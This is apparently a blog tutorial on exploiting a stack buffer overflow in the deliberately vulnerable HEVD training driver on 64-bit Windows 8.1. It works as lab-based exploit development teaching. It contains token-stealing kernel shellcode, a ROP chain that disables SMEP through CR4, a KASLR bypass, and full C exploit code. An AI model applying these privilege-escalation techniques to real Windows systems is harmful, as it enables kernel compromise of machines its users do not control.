

Continuing on from the [last post](https://stolenfootball.github.io/posts/series/windows_drivers/p7_buffer_overflow_win7/), it's time to make two big changes.  We're moving from Windows 7 to Windows 8.1, and we're moving from x86 to x64.  

Like before, Windows 8.1 isn't necessarily just available for download, so I'm providing a link to the ISO hosted on my Google Drive [here](https://drive.google.com/drive/folders/1BqItKuSwl1NkQibBXcaDUzoJjv1G2QzQ?usp=sharing).

We'll be using the same bug from the [HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) as last time, just modifying it to work on 64 bit Windows 8.1.  If you want to read more about the bug, please see the last post.

## Setup
These steps should all be familiar by this point, so I'm going to go through them fast.

First, install the VM and set up debugging.  I'd recommend using the network debugging instructions from my [kernel debugger setup post](https://stolenfootball.github.io/posts/research/2025/windows_kernel_debugger/) for this one.  You can use modern WinDbg too, which is nice.

Enable Test Signing on the VM so the driver loads.  Reboot the VM after running the command:

```cmd
bcdedit /set testsigning on
```

Install the 64 bit version of [HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/releases/tag/v3.00) on the VM.  Make sure you use the one in the `\driver\vulnerable\x64` directory.  You can install and start the service with the following command:

```cmd
sc create HEVD type= kernel start= auto binPath= C:\Users\stolenfootball\Desktop\HEVD.sys
```

And then:

```cmd
sc start HEVD
```

Decompile the 64 bit version of the driver in IDA.  Don't be lazy with this part, you'll regret it later.  Find the `TriggerBufferOverflowStack` function, and make sure it looks more or less like the following:


Set the line prefixes to show up in graph mode, then synchronize the assembly and the pseudocode.

Now find the base address the driver is loaded at in the VM with the `!lmi` command, and rebase the program in IDA.

Finally, take a snapshot of the VM at this point to work off of.

## Rev the vulnerable function
Let's write a quick program to exercise the vulnerable IOCTL without triggering the overflow so we can check the stack offsets.  An example of such a program is in the last post, so I'm not going to reproduce it here.

Make sure to compile with the following in the Visual Studio 2022 Developer Command Prompt so you get a 64 bit program.

```cmd
cl exploit.c
```

Set a breakpoint just before the `memmove` in `TriggerBufferOverflowStack`, then run the program.

> Before looking at the assembly for this function, it's worth looking at the [Windows x64 calling convention documentation](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170), and [reviewing the ABI in general](https://learn.microsoft.com/en-us/cpp/build/x64-software-conventions?view=msvc-170).  A shorter quick explanation of the x64 fastcall calling convention by Raymond Chen I really like can be found [here](https://devblogs.microsoft.com/oldnewthing/20040114-00/?p=41053) as well.

At the assembly just before `memmove` in IDA, we can see that a pointer to `KernelBuffer` is loaded into `rcx`.  IDA lables this `UserBuffer` because `UserBuffer` was passed in through `rcx` as an argument, but at this point in the program, `UserBuffer` is actually in `rdi`.  This instruction loads a pointer to `KernelBuffer` into `rcx`.


Interestingly in this case, I think it's a bit clearer in WinDbg.


Regardless, we want to overflow from the start of the `KernelBuffer` to the return address.  The Windows x64 ABI [doesn't use base pointers](https://www.brendangregg.com/blog/2024-03-17/the-return-of-the-frame-pointers.html) which slightly complicates the matter, but we can still tell what's happening by looking at the function prologue.


First, there are three callee registers saved(`r12`, `r14`, and `r15`), for a total of `0x18` (3 * 8) bytes.  Then the prologue makes `0x820` bytes worth of space on the stack.  Given that `KernelBuffer` is at `rsp+0x20` according to the WinDbg disassembly, it seems as though there should be `0x818` bytes between the `KernelBuffer` and the return address. 


This means two things:

- If we write `0x820` bytes to the `KernelBuffer`, the last 8 bytes should overwrite the return address.  There's no saved `rbp` here, base pointers aren't used.
- We will need to reset those callee saved registers later because we'll end up clobbering them.

Modify the program to write `0x820` bytes of `A`, and make sure that the last 8 bytes only are set to `B`.  Again, an example of this is in the last post so I'm not going to reproduce it here.

If we run this, we'll get a crash in WinDbg.  Run `!analyze -v` to analyze the crash, and we get some interesting information.


The three registers we thought would be clobbered are set to all `A`, which is exactly what we expected.  In addition, the top value on the stack (which is the return address) is set to all `B` at the time of the crash.  Looks like our assumptions above were correct.

## Modify the exploit for x64
The exploit will be more or less the same as the one outlined in the [last post](https://stolenfootball.github.io/posts/series/windows_drivers/p7_buffer_overflow_win7/), but there are a couple of significant changes we'll need to make for 64 bit Windows.

First, the 64 bit VCC compiler does not allow for inline assembly.  This means we're back to the trusty method of compiling our shellcode with [NASM](https://www.nasm.us/) and saving it in the program as a byte string.

> It's actually possible to write all of the shellcode in C, which makes it a bit more stable and easy to look at.  However, there's enough complexity there that it's worthy of its own post, so I'm going to stick with the assembly version for the moment.

Here is the token stealing shellcode:

```asm
; Windows 8.1 Token Stealing Shellcode
; Author: @stolenfootball
; Website: https://stolenfootball.github.io

[BITS 64]

%define SYSTEM_PID      0x4

%define KTHREAD_OFFSET  0x188
%define EPROCESS_OFFSET 0xb8
%define FLINK_OFFSET    0x2e8
%define PID_OFFSET      0x2e0
%define TOKEN_OFFSET    0x348

_start:
    push rax                            ; Save register state
    push rbx
    push rcx

    ; Start of Token Stealing Stub 

    mov rax, [gs:KTHREAD_OFFSET]        ; Get KTHREAD of current thread 
    mov rax, [rax + EPROCESS_OFFSET]    ; Get current EPROCESS from KTHREAD
    
    mov rbx, rax                        ; Store current EPROCESS pointer in rbx

    __search_system_pid_loop:
        mov rax, [rax + FLINK_OFFSET]   ; Get the next active process in the list
        sub rax, FLINK_OFFSET           ; Go to the start of the EPROCESS struct
        mov rcx, [rax + PID_OFFSET]     ; Put the PID of this process into rcx
        cmp rcx, SYSTEM_PID             ; Compare the PID of the process to SYSTEM
        jne __search_system_pid_loop

    mov rcx, [rax + TOKEN_OFFSET]       ; Get a pointer to SYSTEM token
    and cl, 0xf0                        ; Clear the reference count
    mov [rbx + TOKEN_OFFSET], rcx       ; Copy SYSTEM token to current process

    ; End of Token Stealing Stub

    pop rcx                             ; Restore registers
    pop rbx
    pop rax
    
    ret                                           
```

It's more or less the same shellcode as last time, just with different offsets and 64 bit registers.  There's only one line I added that might not be immediately clear:

```asm
    and cl, 0xf0                              ; Clear the reference count
```

There's a bit of a quirk with the `AccessToken` pointer field in the `EPROCESS` struct.  The actual Access Token the field points to is always written to a memory address that is a multiple of 0x10 (as an optimization for stack alignment).  This means the bottom 4 bits of the pointer are always 0. 

Back in the early days of computers, every bit of memory was expensive, and using memory as efficiently as possible was a high priority.  We know these bits are 0, so there's no need to explicitly store them.  This means they can be used for something else.  Windows uses those bits to keep track of how many active references there are to the token within the process.

Our exploit code doesn't have the same number of references to the token as the SYSTEM process, so it's best to clear them out.  If you're feeling exact, you could probably copy the references from the old token to the new one, but in practice that is rarely done.

You can compile the code with NASM:

```cmd
nasm shellcode.asm -o shellcode.o
```

Theno open `shellcode.o` with [HxD](https://mh-nexus.de/en/hxd/), highlight the bytes in the text window, and do `Edit` -> `Copy as` -> `C`.


The byte string with the shellcode won't be stored in executable memory by default, so we'll need to allocate some executable space for it and copy it over.  This can be done with the `VirtualAlloc` and `RtlCopyMemory` functions:

```c++
lpShellcode = VirtualAlloc(NULL, 
                           shellcodeSize,
                           MEM_COMMIT | MEM_RESERVE,
                           PAGE_EXECUTE_READWRITE);

RtlCopyMemory(lpShellcode, TokenStealingPayloadWin8, shellcodeSize);
```

Make sure to assign the memory from `VirtualAlloc` `RWX` permissions so we can both copy in the shellcode and run it.

Here is the reworked x64 version of the exploit code:

```c
#include <windows.h>
#include <stdio.h>


// Vulnerable IOCTL
#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

// Sizes for overflow
#define BUFFER_SIZE 2048

#define POINTER_SIZE 8

CHAR TokenStealingPayloadWin8[] =
{
	0x50, 0x53, 0x51, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x48, 0x89, 0xC3, 0x48, 0x8B,
	0x80, 0xE8, 0x02, 0x00, 0x00, 0x48, 0x2D, 0xE8, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x88, 0xE0, 0x02, 0x00, 0x00, 0x48, 0x83, 0xF9, 0x04, 0x75, 0xE6,
	0x48, 0x8B, 0x88, 0x48, 0x03, 0x00, 0x00, 0x80, 0xE1, 0xF0, 0x48, 0x89,
	0x8B, 0x48, 0x03, 0x00, 0x00, 0x59, 0x5B, 0x58, 0xC3
};


INT TriggerExploit(HANDLE hDevice);

INT main() 
{
    HANDLE hDevice;
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
        return -1;
    } 

    printf("[+] Device opened successfully!\n");

    if (TriggerExploit(hDevice) >= 0) {
        printf("[+] Exploit completed successfully!\n");
    } else {
        printf("[-] Exploit failed: %lu\n", GetLastError());
    }

    printf("[+] Cleaning up and closing handle...\n");
    CloseHandle(hDevice);

    return 0;
}

INT TriggerExploit(HANDLE hDevice) 
{
    UINT64 *lpInBuffer;
    LPVOID  lpShellcode;
    SIZE_T  inBufferSize;
    DWORD   bytesReturned;
    SIZE_T  shellcodeSize = sizeof(TokenStealingPayloadWin8);


    // Allocate space for the shellcode
    printf("[+] Allocating executable memory for shellcode\n");

    if (!(lpShellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE))) {
        printf("[-] Failed to allocate memory for shellcode: %lu\n", GetLastError());
        return -1;
    }

    // Copy shellcode into executable user space memory
    RtlCopyMemory(lpShellcode, TokenStealingPayloadWin8, shellcodeSize);

    printf("[+] Shellcode copied into executable memory\n");


    // Allocate a buffer of the correct size for the overflow.  Need to overflow 
    // the buffer, three callee saved registers, and enough space for the ROP chain.
    inBufferSize = BUFFER_SIZE + (3 * POINTER_SIZE) + CHAIN_SIZE;
    
    // Alocate the user buffer to be sent to the driver
    if (!(lpInBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, inBufferSize))) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }
    printf("[+] Created buffer of size: %zu\n", inBufferSize);
    

    // Set buffer to be full of 'A's
    RtlFillMemory(lpInBuffer, inBufferSize, 'A');

    // Set last bytes of buffer to point to the shellcode.
    lpInBuffer[(inBufferSize / POINTER_SIZE) - 1] = (UINT64)lpShellcode;


    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);

    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        NULL,
        0,
        &bytesReturned,
        NULL
    );
    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }
    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, lpInBuffer);

    return 0;
}
```

Let's set a breakpoint at the end of the vulnerable function and run this.


When we hit the breakpoint, the return address can be easily seen in the stack trace:


And if we disassemble a few instructions the at the return address, we can see our shellcode.  Perfect!


But if we step one more time, instead of entering the shellcode, the VM crashes, and we get the following bugcheck code.


What happened?

> For those of you with an AMD CPU, your VM might have stepped right into the shellcode with no problem.  This is because Microsoft's support for AMD virtualization is extremely subpar, to the point where modern kernel mitigations simply don't work in VMs on AMD machines.
>
> The kernel mitigations are running on the host, just not the VM, so it is still necessary to bypass them even on AMD.  But if you have an AMD CPU, you just have to eyeball disabling the mitigations until you can test on an Intel machine.  Follow the rest of the code here and verify that everything looks right, and it should still be pretty stable when it comes time to test.

## SMAP / SMEP
In around 2010 Microsoft begain using **SMEP**.  SMEP is a CPU feature that allows the OS to prevent execution of memory pages belonging to a user process by the kernel.  It is a derivation of [SMAP](https://en.wikipedia.org/wiki/Supervisor_Mode_Access_Prevention), which prevents all access to user space memory from the kernel.  

What this means, in effect, is that the kernel cannot execute any memory that is owned by a user.  It's sort of like DEP/NX, except all user pages are marked as NX from the kernel's perspective.

That's why the jump to the user space program didn't work.  When we jumped to the user space shellcode, it was like trying to execute shellcode in a non-executable page.

## Disabling SMEP
Fortunately for us, SMEP can be turned on and off as when needed.

SMEP is set with the 20th bit of the `CR4` [control register](https://en.wikipedia.org/wiki/Control_register#CR4).  If the bit is a `1` SMEP is enabled, and if it is a `0` SMEP is disabled.

Control registers are special registers included in the x64 processor specification that control processor behavior.  There are any number of things control registers can modify, including whether to use the cache, a bunch of different security features, and more.  SMEP and SMAP are included in this.

But how do we flip the 20th bit of the CR4 register?  The easiest way to do it in this situation is with a ROP chain.

## What to set SMEP to
First, let's figure out what value we should set the `CR4` register to.

In WinDbg, printing out the CR4 value looks like the following:


SMEP is set by the 20th bit, which is the one pointed to by the red arrow.

The following `C` macros make it easy to get the new value from the old one.

```c
#define SMEP_BIT 20
#define CR4_ORIG_VALUE 0x00000000001406f8

#define CR4_SMEP_DISABLED (CR4_ORIG_VALUE & ~(1 << SMEP_BIT))
```

If we do the same thing in Python, we'll see the new value `CR4` needs to be set to is `0x406f8`.

```python
>>> hex(0x00000000001406f8 & ~(1 << 20))
'0x406f8'
```

And by setting `CR4` to that in WinDbg manually, we can see the SMEP bit has been turned off, but everything else is the same.



## ROP to disable SMEP
Gadget offsets will change with just about every version of the Windows kernel, so it's good to document which version we're working with in case anyone wants to port our exploit to a different version of Windows down the line.

This can be done easily through the debugger with the `vertarget` command:


Also take note of the kernel base.  We'll find a way to determine it dynamically later, but for now the base won't change because we've been using the same snapshot for all of the tests, so we can use this base to test if our gadgets work.

Now, copy `C:\Windows\System32\ntoskrnl.exe` **from the VM** to your host machine.

Let's find some gadgets. I used [r++](https://github.com/0vercl0k/rp) for this because it has a nice Windows executable in the "Releases" section on Github, but you can use any one you want.  They all more or less do the same thing.  If you're feeling brave it's even possible to do this with just WinDbg, but in my opinion there's no reason to go through more pain than necessary.

```cmd
.\rp-win.exe --va 0 --file .\ntoskrnl.exe --rop 2 > gadgets.txt
```

Important options are:
- `--va 0`: give the gadgets in terms of their offsets from the start of the binary
- `--rop 2`: only show gadgets with two instruction depth

Looking through the `gadgets.txt` file for any mentions of `cr4`, we find the following: 

```txt
0x38a3cc: mov cr4, rax ; add rsp, 0x28 ; ret ; (1 found)
0x086557: mov cr4, rax ; mov cr4, rcx ; ret ; (1 found)
0x1e64e9: mov cr4, rax ; mov cr4, rcx ; ret ; (1 found)
0x384f10: mov cr4, rcx ; add rsp, 0x28 ; ret ; (1 found)
0x08655a: mov cr4, rcx ; ret ; (1 found)
0x1e64ec: mov cr4, rcx ; ret ; (1 found)
```

Either of the last two gadgets will do perfectly.  The `mov cr4, rcx ; ret` gadget allow us to set `cr4` to the value that's in `rcx`.  All we have to do now is find a gadget that puts a value in `rcx`.

```txt
...
0x378df6: pop rcx ; ret ; (1 found)
0x37a82d: pop rcx ; ret ; (1 found)
0x37e694: pop rcx ; ret ; (1 found)
0x384a8e: pop rcx ; ret ; (1 found)
0x38856a: pop rcx ; ret ; (1 found)
0x3895a3: pop rcx ; ret ; (1 found)
0x020b29: pop rcx ; ret ; (1 found)
0x036e83: pop rcx ; ret ; (1 found)
0x07db64: pop rcx ; ret ; (1 found)
...
```

As expected, there's about a million of them.

In a normal user mode exploit for a pwn chall, this would be all we need.  However, we have to to resume execution of the main kernel after the exploit is complete, so we need to take the previous function's stack frame into consideration.  If we just stack the gadgets starting at the return address, we'll corrupt the previous function's stack frame.


Looking at the previous function in the stack frame's assembly:


We can see we got lucky.  The next thing it does is clean up its own stack and return.  This means we have `0x28` bytes after the return address to work with for our ROP chain.

Let's add the gadgets to the code and build the chain.

```c
// ROP Gadgets
// Windows 8.1 Kernel Version 9600 MP (1 procs) Free x64
#define POP_RCX     0x140378df6      // : pop rcx ; ret
#define MOV_CR4_RCX 0x14008655a      // : mov cr4, rcx ; ret

#define CHAIN_SIZE 4 * POINTER_SIZE  
```

And to add the chain to the end of the buffer, we can do the following:

```c
inBufferSize = BUFFER_SIZE + (3 * POINTER_SIZE) + CHAIN_SIZE;
```

```c
returnAddrIndex = ((BUFFER_SIZE + (3 * POINTER_SIZE) + POINTER_SIZE) / POINTER_SIZE) - 1;

lpInBuffer[returnAddrIndex++] = POP_RCX + kernelBase;
lpInBuffer[returnAddrIndex++] = CR4_SMEP_DISABLED;
lpInBuffer[returnAddrIndex++] = MOV_CR4_RCX + kernelBase;
lpInBuffer[returnAddrIndex++] = (UINT64)lpShellcode;
```

The exploit code is now the following .

```c
#include <windows.h>
#include <stdio.h>


// Vulnerable IOCTL
#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

// Sizes for overflow
#define BUFFER_SIZE 2048
#define POINTER_SIZE 8

// SMEP Constants
#define SMEP_BIT 20
#define CR4_ORIG_VALUE 0x00000000001406f8
#define CR4_SMEP_DISABLED (CR4_ORIG_VALUE & ~(1 << SMEP_BIT))

// ROP Gadgets
// Windows 8.1 Kernel Version 9600 MP (1 procs) Free x64
#define POP_RCX     0x000378df6      // : pop rcx ; ret
#define MOV_CR4_RCX 0x00008655a      // : mov cr4, rcx ; ret

// Chain is 2 gadgets + 1 value to store in rcx + address of shellcode
#define CHAIN_SIZE 4 * POINTER_SIZE  


// https://github.com/stolenfootball/HEVDExploits/blob/main/BufferOverflowStack/Windows8x64/shellcode.asm
CHAR TokenStealingPayloadWin8[] =
{
	0x50, 0x53, 0x51, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x48, 0x89, 0xC3, 0x48, 0x8B,
	0x80, 0xE8, 0x02, 0x00, 0x00, 0x48, 0x2D, 0xE8, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x88, 0xE0, 0x02, 0x00, 0x00, 0x48, 0x83, 0xF9, 0x04, 0x75, 0xE6,
	0x48, 0x8B, 0x88, 0x48, 0x03, 0x00, 0x00, 0x80, 0xE1, 0xF0, 0x48, 0x89,
	0x8B, 0x48, 0x03, 0x00, 0x00, 0x41, 0xBC, 0x00, 0x00, 0x00, 0x00, 0x49,
	0x89, 0xEE, 0x49, 0x81, 0xC6, 0xD0, 0x00, 0x00, 0x00, 0x4D, 0x89, 0xF7,
	0x4D, 0x8B, 0x7F, 0x30, 0x48, 0x83, 0xC4, 0x10, 0x59, 0x5B, 0x58, 0xC3
};


INT TriggerExploit(HANDLE hDevice);
UINT64 GetKernelBaseAddress();

INT main() 
{
    HANDLE hDevice;
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
        return -1;
    } 

    printf("[+] Device opened successfully!\n");

    if (TriggerExploit(hDevice) >= 0) {
        printf("[+] Exploit completed successfully!\n");
    } else {
        printf("[-] Exploit failed: %lu\n", GetLastError());
    }

    printf("[+] Cleaning up and closing handle...\n");
    CloseHandle(hDevice);

    return 0;
}

INT TriggerExploit(HANDLE hDevice) 
{
    UINT64 *lpInBuffer;
    LPVOID  lpShellcode;
    UINT64  kernelBase = 0xfffff8029ac8d000;
    SIZE_T  inBufferSize;
    SIZE_T  returnAddrIndex;
    DWORD   bytesReturned;
    SIZE_T  shellcodeSize = sizeof(TokenStealingPayloadWin8);


    // Allocate space for the shellcode
    printf("[+] Allocating executable memory for shellcode\n");

    if (!(lpShellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE))) {
        printf("[-] Failed to allocate memory for shellcode: %lu\n", GetLastError());
        return -1;
    }

    // Copy shellcode into executable user space memory
    RtlCopyMemory(lpShellcode, TokenStealingPayloadWin8, shellcodeSize);

    printf("[+] Shellcode copied into executable memory\n");


    // Allocate a buffer of the correct size for the overflow.  Need to overflow 
    // the buffer, three callee saved registers, and enough space for the ROP chain.
    inBufferSize = BUFFER_SIZE + (3 * POINTER_SIZE) + CHAIN_SIZE;
    
    // Alocate the user buffer to be sent to the driver
    if (!(lpInBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, inBufferSize))) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }
    printf("[+] Created buffer of size: %zu\n", inBufferSize);
    

    // Set buffer to be full of 'A's
    RtlFillMemory(lpInBuffer, inBufferSize, 'A');


    // Create the ROP Chain
    if (!(kernelBase = GetKernelBaseAddress())) {
        printf("[-] Failed to calculate kernel base\n");
        return -1;
    }

    // Return address is at the buffer size plus the size of the three callee saved registers to 
    // overwrite plus the size of the return address.  Since the array is of size UINT64, we need
    // to divide by 8 to get the correct index into the array from the raw size in bytes, then 
    // subtract one to account for zero indexing.
    returnAddrIndex = ((BUFFER_SIZE + (3 * POINTER_SIZE) + POINTER_SIZE) / POINTER_SIZE) - 1;

    lpInBuffer[returnAddrIndex++] = POP_RCX + kernelBase;
    lpInBuffer[returnAddrIndex++] = CR4_SMEP_DISABLED;
    lpInBuffer[returnAddrIndex++] = MOV_CR4_RCX + kernelBase;
    lpInBuffer[returnAddrIndex++] = (UINT64)lpShellcode;


    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
        
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        NULL,
        0,
        &bytesReturned,
        NULL
    );
    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, lpInBuffer);

    return 0;
}
```

If you run the code now, you'll watch it go through the ROP chain, flip the correct bit in `cr4`, then step into the shellcode without throwing an error.

## Cleanup
There are two things we have to do to resume execution from this point.

First, let's restore the three callee saved registers, `r12`, `r14`, and `r15`.

Set a breakpoint where the vulnerable function starts, and take a look at their values before they are pushed to the stack.


`r12` is `0`, which is easy, we'll just set that in the shellcode.  But `r14` and `r15` appear to be heap pointers.  How can we restore those dynamically?  We can't just set them statically, they'll be different each time because of KASLR.

Set another breakpoint at the end of our shellcode, and let's see what values we have to work with at the time we begin execution.


It looks like `rbp` is close in value to what `r14` is supposed to be.  In fact, if we check the offsets in Python:

```python
# rbp - r14
>>> hex(0xFFFFE001F0E0CEE0 - 0xFFFFE001F0E0CFB0)
'-0xd0'
```

Then verify across a couple of runs, we can see this offset doesn't change.  This means we can use `rbp` to recover `r14` in the shellcode.

> If you do a bit more rev work, you'll actually see that at this point `rbp` is pointing to the IRP and `r14` is pointing to the current `IO_STACK_LOCATION`.  Since the two are always stored together in the heap and have a known offset between them, restoring `r14` from `rbp` is safe.

If we try the same trick with `r15` though, we'll see the offset always changes.  This means `rbp` and `r15` are part of different heap objects, and we can't rely on them always being the same distance apart.

So what's in `r15`?  Looking through all the source in our driver, it looks like `r15` is never used.  This means it was set somewhere in the kernel before the driver was called.

Before we go reversing `ntoskrnl.exe`, let's set a breakpoint at the start of the `IrpDeviceIoctlHandler` function, which is the first place our driver code will be executed when the IOCTL is sent to it.


And take a look at the heap memory pointed to by `r15`.


Odds are good that we are looking at some kind of struct, as the second 8 bytes appear to be a pointer to another heap address.

Now let's look at the values stored in the registers.


The sharp eyed among you will see that the value in `rcx` is the same as the pointer in the 8th-16th bytes of the struct pointed to by `r15`.  Going by the disassembly, we know the value currently in `rcx` is a pointer to the `DEVICE_OBJECT` of our driver!

So what type of struct associated with the driver has a pointer to the `DEVICE_OBJECT` in its 8th-16th bytes?  Actually the `DRIVER_OBJECT` and the `FILE_OBJECT` both do.

In this case however, it is the `FILE_OBJECT`.  We can confirm this by inspecting the `IO_STACK_LOCATION` and checking which of the structs corresponds to the value found in `r15`.


So how do we get the `FILE_OBJECT` pointer back in `r15`?  

Fortunately, we just got a pointer to the current `IO_STACK_LOCATION` back into `r14`.  The `IO_STACK_LOCATION` struct contains a pointer to the `FILE_OBJECT` at `IO_STACK_LOCATION + 0x30`, as can be seen in the screenshot above.

Now that we have all of that figured out, let's add the following to the kernel recovery stub to reset the registers we clobbered earlier:

```asm
; Kernel cleanup 
mov r12, 0                          ; r12 is 0 before it is clobbered

mov r14, rbp                        ; Copy *IRP to r14
add r14, 0xd0                       ; Put pointer to IO_STACK_LOCATION into r14

mov r15, r14                        ; Get pointer to IO_STACK_LOCATION
mov r15, [r15 + 0x30]               ; Get pointer to FILE_OBJECT of driver
```

Next, we have to fix the stack.  Because of the gadgets we have written, our shellcode currently returns into the middle of the previous function's stack frame, which will inevitibly crash.

We have written 4 pointers as part of the ROP chain, one of which is in the current function's return address.  This means there are 3 pointers for `0x18` bytes of space in the old function's stack frame.


However, we already know from the disassembly that the only thing the previous function does after calling the vulnerable function is clean up it's stack frame and return.


If we add `0x10` (`0x28 - 0x18`) bytes to `rsp` at the end of our shellcode, we should end up back at the previous function's correct return address, and be able to resume execution in the kernel normally.

Now let's add this to the kernel recovery stub:

```asm
add rsp, 0x10                       ; Fix stack from ROP chain
```

And run again.  This time, you should see it go through with no crashes!  If you add `system("cmd")` somewhere after the exploit triggers, you'll see a shell spawn with kernel privileges.

## Defeating KASLR
So far we've been circumventing the fact that the kernel's base address changes on each run of the program by running off of a snapshot.  That said, we want our exploit to run on more than just our snapshot, so it's not something we can leave hardcoded in.

Those coming from userland pwn are probably concerned right now.  Finding a leak to bypass ASLR is one of the more difficult tasks in userland exploit development, and can take nearly as much time as finding the initial memory corruption bug.

Luckily for us, finding kernel base address when you have user level code execution in Windows is not hard.  Microsoft doesn't necessarily provide a function to retrieve it, but its also not information they try hard to protect.

There are any number of ways to do this, but most of them involve using undocumented Windows functions.  I always try to use documented functions when possible for stability, so we'll use a known method of obtaining the kernel base through the `EnumDeviceDrivers` function.

> Microsoft classifies all Windows functions into "documented" and "undocumented" categories.  If a function is "documented", it means it is stable and won't ever change.  If a function is "undocumented" it just means it may be changed in the future.

Here is the `EnumDeviceDrivers` kernel base address resolution code.  I've commented where appropriate, but if should be fairly self explanatory.

```c
UINT64 GetKernelBaseAddress() 
{
    ULONG_PTR  pKernelBaseAddress = 0;
    LPVOID    *lpImageBase = NULL;
    DWORD      dwBytesNeeded = 0;

    // First call to EnumDeviceDrivers calculates the amount of space needed to
    // store the results it will have.  It is up to the caller to allocate this
    // space, so this is a necessary step.
    if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
        printf("[-] Failed to retrieve size needed for device driver entries\n");
        return -1;
    }

    // Using the results of the first call to EnumDeviceDrivers, allocate enough 
    // space for EnumDeviceDrivers to store its results in
    if (!(lpImageBase = (LPVOID *)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
        printf("[-] Failed to allocate space for lpImageBase\n");
        if (lpImageBase) 
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        return -1;
    }

    // Make the call to EnumDeviceDrivers, get a list of all loaded drivers in
    // the kernel
    if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
        printf("[-] EnumDeviceDrivers failed: %d", GetLastError());
        if (lpImageBase) 
             HeapFree(GetProcessHeap(), 0, lpImageBase);
        return -1;
    }

    // The kernel base is the first field of the results of EnumDeviceDrivers
    pKernelBaseAddress = ((ULONG_PTR *)lpImageBase)[0];
    HeapFree(GetProcessHeap(), 0, lpImageBase);

    printf("[+] Kernel Base Address calculated: %llx\n", pKernelBaseAddress);

    return (UINT64)pKernelBaseAddress;
}
```

## Final exploit
Here is the final exploit, all commented up and ready for distribution.

```c
#include <windows.h>
#include <stdio.h>
#include <psapi.h>

//////////////////////////////////////////////////////////////////// 
//                                                                //
//    Title:    HEVD x64 Stack Overflow                           //
//    Platform: Windows 8.1 Version 9600 MP (1 procs) Free x64    //
//    Author:   Jeremy Dunn (@stolenfootball)                     //
//    Website:  https://stolenfootball.github.io                  //
//                                                                //
////////////////////////////////////////////////////////////////////

/*  
 *  This program exploits a standard stack based buffer overflow in the 0x800 
 *  IOCTL of the HEVD (https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
 *  driver.  The exploit is valid on Windows 8.1 x64 kernels.  For kernel versions 
 *  other than the one listed above, ROP gadget offsets may need to be changed.
 * 
 *  The driver takes in an arbitrary buffer from the user and performs an unchecked
 *  memmove into a statically sized stack-based buffer in the kernel.
 * 
 *  The kernel stack buffer is 0x800 bytes long.  There are three callee saved 
 *  registers (r12, r14, and r15) that are overwritten for a total of 0x18 bytes.
 *  As such, bytes 0x818 through bytes 0x820 overflow the return address.
 * 
 *  The original values in the callee saved registers are:
 *      r12: set to 0
